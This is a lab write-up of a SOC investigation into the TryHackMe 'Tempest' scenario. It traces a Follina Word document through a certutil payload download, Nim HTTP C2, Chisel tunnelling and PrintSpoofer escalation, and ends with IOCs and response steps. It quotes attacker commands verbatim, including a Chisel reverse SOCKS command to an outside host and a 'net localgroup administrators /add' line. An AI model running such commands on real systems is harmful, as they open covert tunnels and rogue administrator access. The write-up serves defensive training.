# Tempest — Full Attack Chain Incident Investigation

## Overview

This investigation involved analyzing a compromised Windows workstation affected by a multi-stage attack.

Using **PowerShell**, **EvtxECmd**, **Timeline Explorer**, **Sysmon**, **Brim**, **CyberChef**, and **VirusTotal**, I examined endpoint and network artifacts, reconstructed the malicious document execution chain, identified persistence and Command and Control (C2) activity, decoded attacker commands, traced a reverse SOCKS proxy, and confirmed privilege escalation to SYSTEM.

The investigation confirmed that a malicious Word document led to code execution, second-stage payload delivery, credential discovery, Chisel proxy activity, PrintSpoofer privilege escalation, malicious account creation, administrator-group modification, and Windows service persistence.

---

## Investigation Objective

The objectives of this investigation were to:

* Validate the integrity of the provided evidence.
* Identify the malicious document and compromised user.
* Reconstruct the document execution chain.
* Identify downloaded payloads and persistence mechanisms.
* Investigate DNS, HTTP, and C2 activity.
* Decode attacker commands found in network traffic.
* Identify credential discovery activity.
* Investigate reverse-proxy and tunneling activity.
* Determine how the attacker gained SYSTEM privileges.
* Identify post-exploitation account and service persistence.
* Extract actionable Indicators of Compromise (IOCs).

---

## Evidence Sources

```text
capture.pcapng
sysmon.evtx
windows.evtx
```

---

## Tools Used

* **PowerShell / Get-FileHash** — Evidence discovery and SHA256 validation.
* **EvtxECmd** — Conversion of EVTX files into searchable CSV data.
* **Timeline Explorer** — Filtering and analysis of Sysmon events.
* **Sysmon / SysmonView** — Process, file, DNS, and network-event correlation.
* **Brim** — Investigation of Zeek-style connection and HTTP logs.
* **CyberChef** — Decoding Base64 data recovered from C2 traffic.
* **VirusTotal** — Hash enrichment and identification of attacker tools.

---

# Investigation

## 1. Evidence Discovery and Integrity Validation

I began by locating the three artifacts provided for the investigation:

```text
capture.pcapng — 17,479,060 bytes
sysmon.evtx    — 3,215,360 bytes
windows.evtx   — 1,118,208 bytes
```



I then calculated the SHA256 hash of each file before beginning the investigation.

```text
capture.pcapng
CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6

sysmon.evtx
665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F

windows.evtx
D0279D5292BC5B25595115032820C9788336678F4333B725998CFE9253E186D60
```



### Initial Finding

The hashes established a repeatable integrity baseline for the evidence used throughout the investigation.

---

## 2. EVTX Parsing and Timeline Preparation

I converted the Sysmon EVTX file to CSV using EvtxECmd so that I could filter and compare individual fields in Timeline Explorer.

EvtxECmd successfully processed:

```text
2,559 Sysmon records
0 parsing errors
0 dropped events
```



I repeated the same process for the Windows Security event log.

```text
198 Windows event records
0 parsing errors
0 dropped events
```



I then opened the parsed Sysmon dataset in Timeline Explorer to begin filtering process, network, file-creation, and DNS events.



### Finding

The parsed timeline provided the endpoint telemetry needed to reconstruct the attack chain using Sysmon Event IDs 1, 3, 11, and 22.

---

## 3. Initial Access — Malicious Word Document

I started the endpoint investigation by filtering Sysmon process-creation events for `.doc` activity.

This identified Microsoft Word opening:

```text
C:\Users\benimaru\Downloads\free_magicules.doc
```



I reviewed the user field from the same event and attributed the activity to:

```text
TEMPEST\benimaru
```



### Finding

The document was opened from the user's Downloads directory under the `TEMPEST\benimaru` account. This established the malicious Word document as the initial execution vector.

---

## 4. Malicious Document Execution Chain

I followed the process activity associated with the document and identified `msdt.exe` executing an encoded command through the `PCWDiagnostic` handler.

The command contained:

* `ms-msdt:/id PCWDiagnostic`
* Nested expression execution
* Base64-decoding logic
* Path traversal targeting `mpsigstub.exe`



### Finding

The activity was consistent with the Microsoft Support Diagnostic Tool execution technique associated with **Follina (`CVE-2022-30190`)**. The malicious document successfully progressed from user execution to command execution.

---

## 5. Startup Persistence

I filtered Sysmon Event ID 11 for files created in Startup locations.

This revealed the following shortcut:

```text
C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk
```



### Finding

The `update.lnk` shortcut provided user-logon persistence by executing when the compromised user signed in.

---

## 6. Second-Stage Payload Delivery

I continued following the execution chain and found a hidden PowerShell command using `certutil` to download a second-stage payload.

```text
Download URL:
http://phishteam.xyz/02dcf07/first.exe

Saved location:
C:\Users\Public\Downloads\first.exe
```

The command downloaded the file and then executed it from the Public Downloads directory.



I extracted the file hashes recorded by Sysmon for `first.exe`.

```text
SHA256:
CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
```



### Finding

The attacker used legitimate Windows utilities to retrieve and execute the second-stage payload from attacker-controlled infrastructure.

---

## 7. DNS and Endpoint Network Activity

I filtered Sysmon Event ID 22 to identify DNS queries associated with the malicious process activity.

The following suspicious domain was identified:

```text
resolvecyber.xyz
```



I then reviewed Sysmon Event ID 3 and found `first.exe` establishing an outbound connection.

```text
Process:          C:\Users\Public\Downloads\first.exe
Source IP:        192.168.254.107
Destination IP:   167.71.222.162
Destination Port: 80
Protocol:         TCP/HTTP
```



### Finding

The endpoint evidence linked the stage-two payload with suspicious DNS activity and outbound HTTP communication.

---

## 8. HTTP C2 Traffic Analysis

I moved to Brim and filtered the PCAP for HTTP traffic involving `resolvecyber.xyz`.

Repeated requests were visible over port `8080`, using the unusual user-agent:

```text
Nim httpclient/1.6.6
```

The requests also contained changing encoded values inside the URI.



I also investigated HTTP activity involving `phishteam.xyz`.

The PCAP contained requests for several attack-chain resources:

```text
/02dcf07/index.html
/02dcf07/first.exe
/02dcf07/spf.exe
/02dcf07/final.exe
/update.zip
```



I opened the detailed Brim record to correlate the HTTP request with its source and destination.

```text
Source IP:        192.168.254.107
Destination IP:   167.71.222.162
Destination Port: 8080
Host:             resolvecyber.xyz
Method:           GET
User-Agent:       Nim httpclient/1.6.6
Status:           200 OK
```



### Finding

The repeated HTTP requests, encoded URI values, uncommon Nim user-agent, and correlation with `first.exe` supported classification of `resolvecyber.xyz` as C2 infrastructure. The `phishteam.xyz` traffic confirmed payload delivery across several stages of the attack.

---

## 9. Encoded C2 Command and Credential Discovery

I extracted an encoded value from the C2 URI and decoded it from Base64 using CyberChef.

The decoded command read the following PowerShell script:

```text
C:\Users\Benimaru\Desktop\automation.ps1
```

The script contained a hard-coded username and plaintext password for `TEMPEST\benimaru`. I excluded the password from this report.



I returned to Brim and confirmed that the encoded value came directly from an HTTP request to the C2 domain.



### Finding

The attacker used the C2 channel to execute discovery commands and recovered credentials stored insecurely inside a local script.

---

## 10. Reverse SOCKS Proxy — Chisel

I continued reviewing process-creation activity and identified `first.exe` launching:

```text
C:\Users\benimaru\Downloads\ch.exe
```

The command line was:

```text
ch.exe client 167.71.199.191:8080 R:socks
```



I extracted the SHA256 hash of `ch.exe` from Sysmon.

```text
8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451
```



VirusTotal identified the binary as **Chisel** and showed detections from 57 of 70 security vendors.



### Finding

The endpoint evidence and VirusTotal enrichment identified `ch.exe` as Chisel configured to create a reverse SOCKS proxy through the compromised workstation.

---

## 11. Privilege Escalation — PrintSpoofer

I identified another suspicious executable in the Sysmon process events:

```text
C:\Users\benimaru\Downloads\spf.exe
```

The command executed:

```text
spf.exe C:\ProgramData\final.exe
```

The event recorded high-integrity execution and the following SHA256 hash:

```text
8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D
```



VirusTotal identified the binary as **PrintSpoofer**, a privilege-escalation tool, with 57 of 70 security vendors flagging the file.



### Finding

The attacker used PrintSpoofer to execute `C:\ProgramData\final.exe` with elevated privileges and progress to SYSTEM-level activity.

---

## 12. Network Confirmation of Reverse SOCKS Activity

After identifying the Chisel command, I returned to Brim and filtered connection records for:

```text
167.71.199.191
```

The traffic included a long-lived connection from `192.168.254.107` to port `8080`, supporting the reverse-tunnel finding.



### Finding

The PCAP independently corroborated the Sysmon command-line evidence and confirmed network activity consistent with the Chisel reverse tunnel. This could have provided tunneled access to other systems reachable from the compromised host.

---

## 13. Malicious Account Creation

After identifying SYSTEM-level execution, I filtered Sysmon process events for account-management commands containing `/add`.

The attacker created two local accounts:

```text
shuna
shion
```

The attacker then added `shion` to the local Administrators group.



I inspected the full event and confirmed that the administrator-group modification ran as:

```text
User:        NT AUTHORITY\SYSTEM
Integrity:   System
Parent:      C:\ProgramData\final.exe
Command:     net.exe localgroup administrators /add shion
```



### Finding

The attacker created persistent local access and granted administrator privileges to `shion` after obtaining SYSTEM execution.

---

## 14. Windows Service Persistence

I filtered the Sysmon process events for service-creation activity and identified `sc.exe` creating:

```text
Service Name: TempestUpdate2
Binary Path:  C:\ProgramData\final.exe
Start Type:   Auto
User Context: NT AUTHORITY\SYSTEM
Parent:       C:\ProgramData\final.exe
```



### Finding

The auto-start `TempestUpdate2` service provided durable SYSTEM-level persistence by launching `final.exe` when Windows started.

---

# Key Findings

| Category                  | Finding                                          |
| ------------------------- | ------------------------------------------------ |
| Compromised Host          | `192.168.254.107` / `TEMPEST`                    |
| Compromised User          | `TEMPEST\benimaru`                               |
| Initial Malicious File    | `C:\Users\benimaru\Downloads\free_magicules.doc` |
| Exploitation Process      | `msdt.exe` using `PCWDiagnostic`                 |
| Startup Persistence       | `update.lnk`                                     |
| Stage-Two Payload         | `C:\Users\Public\Downloads\first.exe`            |
| Payload Infrastructure    | `phishteam.xyz`                                  |
| C2 Domain                 | `resolvecyber.xyz`                               |
| C2 IP                     | `167.71.222.162`                                 |
| C2 Ports                  | `80`, `8080`                                     |
| C2 User-Agent             | `Nim httpclient/1.6.6`                           |
| Exposed Credential Source | `C:\Users\Benimaru\Desktop\automation.ps1`       |
| Reverse-Proxy Tool        | Chisel (`ch.exe`)                                |
| Proxy Endpoint            | `167.71.199.191:8080`                            |
| Privilege-Escalation Tool | PrintSpoofer (`spf.exe`)                         |
| SYSTEM Payload            | `C:\ProgramData\final.exe`                       |
| Created Accounts          | `shuna`, `shion`                                 |
| Administrator Account     | `shion`                                          |
| Persistence Service       | `TempestUpdate2`                                 |

---

# Indicators of Compromise

## Domains and URLs

```text
phishteam.xyz
resolvecyber.xyz
http://phishteam.xyz/02dcf07/index.html
http://phishteam.xyz/02dcf07/first.exe
```

## IP Addresses

```text
167.71.222.162
167.71.199.191
```

## File Paths

```text
C:\Users\benimaru\Downloads\free_magicules.doc
C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk
C:\Users\Public\Downloads\first.exe
C:\Users\benimaru\Downloads\ch.exe
C:\Users\benimaru\Downloads\spf.exe
C:\ProgramData\final.exe
```

## SHA256 Hashes

```text
first.exe
CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

ch.exe / Chisel
8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451

spf.exe / PrintSpoofer
8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D
```

## Additional Indicators

```text
User-Agent: Nim httpclient/1.6.6
Service:    TempestUpdate2
Accounts:   shuna, shion
```

---

# MITRE ATT&CK Mapping

| Technique                                               | ID            | Evidence                                                                  |
| ------------------------------------------------------- | ------------- | ------------------------------------------------------------------------- |
| User Execution: Malicious File                          | **T1204.002** | The user opened `free_magicules.doc` in Microsoft Word                    |
| Exploitation for Client Execution                       | **T1203**     | The document triggered the encoded MSDT execution chain                   |
| Command and Scripting Interpreter: PowerShell           | **T1059.001** | Hidden PowerShell downloaded and executed `first.exe`                     |
| Ingress Tool Transfer                                   | **T1105**     | Multiple attacker tools and payloads were downloaded from `phishteam.xyz` |
| Registry Run Keys / Startup Folder                      | **T1547.001** | `update.lnk` was created in the user's Startup folder                     |
| Application Layer Protocol: Web Protocols               | **T1071.001** | C2 communication occurred through repeated HTTP requests                  |
| Proxy: External Proxy                                   | **T1090.002** | Chisel created a reverse SOCKS proxy to `167.71.199.191:8080`             |
| Unsecured Credentials: Credentials In Files             | **T1552.001** | The attacker read credentials stored in `automation.ps1`                  |
| Exploitation for Privilege Escalation                   | **T1068**     | PrintSpoofer was used to obtain elevated execution                        |
| Create Account: Local Account                           | **T1136.001** | The attacker created `shuna` and `shion`                                  |
| Account Manipulation: Additional Local or Domain Groups | **T1098.007** | `shion` was added to the local Administrators group                       |
| Create or Modify System Process: Windows Service        | **T1543.003** | The attacker created the auto-start `TempestUpdate2` service              |

I limited the ATT&CK mapping to techniques that could be reasonably supported by the endpoint and network evidence.

---

# SOC Assessment

**Verdict:** True Positive
**Analyst-assessed Severity:** Critical

The incident should be escalated as a confirmed full endpoint compromise.

The assessment is supported by several correlated indicators:

* A malicious Word document triggered an encoded MSDT execution chain.
* A Startup-folder shortcut established user-level persistence.
* PowerShell and `certutil` downloaded and executed a second-stage payload.
* Sysmon and PCAP evidence confirmed HTTP C2 communication.
* Encoded C2 traffic contained attacker commands and exposed credentials.
* Chisel established a reverse SOCKS proxy.
* PrintSpoofer enabled privilege escalation.
* SYSTEM-level commands created local accounts and administrator access.
* An auto-start Windows service established durable persistence.

Rather than relying on a single event, I reached the verdict by correlating process creation, file creation, DNS queries, network connections, decoded C2 data, packet-capture evidence, and external hash intelligence.

---

# Recommended Response Actions

If this activity were detected in a production SOC environment, I would recommend:

1. **Isolate the affected workstation** to stop C2 communication and proxy access.
2. **Block the identified domains and IP addresses** at DNS, proxy, firewall, and EDR controls.
3. **Disable `shuna` and `shion`** and remove unauthorized administrator-group memberships.
4. **Reset the compromised user's credentials** and invalidate active sessions.
5. **Quarantine the malicious document and payloads** using the identified paths and hashes.
6. **Remove `update.lnk` and the `TempestUpdate2` service** after preserving evidence.
7. **Rebuild the workstation from a trusted image** because the attacker obtained SYSTEM privileges.
8. **Patch Windows and Microsoft Office**, including remediation for `CVE-2022-30190`.
9. **Hunt enterprise telemetry** for the extracted domains, IP addresses, hashes, service name, user-agent, and account names.
10. **Review authentication and network logs** for lateral movement through the reverse SOCKS tunnel.
11. **Remove hard-coded credentials from scripts** and rotate any exposed secrets.
12. **Enable detections** for Office child processes, suspicious `certutil` downloads, local-user creation, administrator-group modification, and service creation from user-writable paths.

---

# Conclusion

This investigation demonstrated how endpoint and network evidence can be correlated to reconstruct a complete Windows attack chain.

Starting with the provided incident artifacts, I validated the evidence, parsed the Windows logs, identified the malicious document, followed the execution and persistence activity, investigated C2 traffic, decoded attacker commands, identified Chisel and PrintSpoofer, and confirmed SYSTEM-level account and service persistence.

The combined evidence supported classification of the incident as a **True Positive involving full compromise of the TEMPEST workstation**.

## Skills Demonstrated

* Evidence handling and SHA256 validation
* Windows EVTX parsing
* Sysmon event analysis
* Timeline Explorer filtering
* Process and parent-process correlation
* Windows persistence investigation
* PCAP analysis with Brim
* DNS and HTTP traffic analysis
* Malware C2 identification
* Base64 decoding with CyberChef
* Credential discovery analysis
* Reverse SOCKS proxy investigation
* Privilege-escalation analysis
* VirusTotal threat-intelligence enrichment
* IOC extraction
* MITRE ATT&CK mapping
* SOC incident assessment and escalation
* Incident-response recommendations

---

> **Lab Environment:** This investigation was completed in the TryHackMe *Tempest* cybersecurity training environment. All indicators, credentials, and systems referenced in this report are part of the lab scenario.
